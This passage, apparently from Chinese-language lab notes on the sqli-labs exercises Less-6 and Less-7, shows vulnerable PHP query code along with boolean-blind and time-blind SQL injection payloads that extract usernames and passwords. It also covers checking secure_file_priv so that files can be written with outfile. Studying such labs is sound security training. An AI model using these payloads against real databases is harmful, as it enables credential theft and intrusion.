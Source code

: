 不支持联合查询。

#### 3.2.6 Less-6

```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
if true
  	echo 'You are in...........';
else 
	print_r(mysql_error());
```

闭合方式不一样。

#### 3.2.7 Less-7

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
if true
  	echo 'You are in.... Use outfile......';
else 
	//print_r(mysql_error());
    echo "You have an error in your SQL syntax";
```

**布尔盲注**

```sql
?id=1'))and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>67 %23 //正常回显
?id=1'))and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68 %23 //报错
```

**时间盲注**

```sql
?id=1'))and if(ascii(substr((select concat(username,password) from users limit 0,1),1,1))>67,1,sleep(5)) %23 //不延时
?id=1'))and if(ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68,1,sleep(5)) %23 //延时
```

**outfile**

这里因为提示`Use outfile`，因此可以尝试写文件。

```bash
$ mysql -e "show global variables like '%secure%';"
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
```

当`secure_file_priv`为`null`时，表示限制`mysql`不允许导入导出。
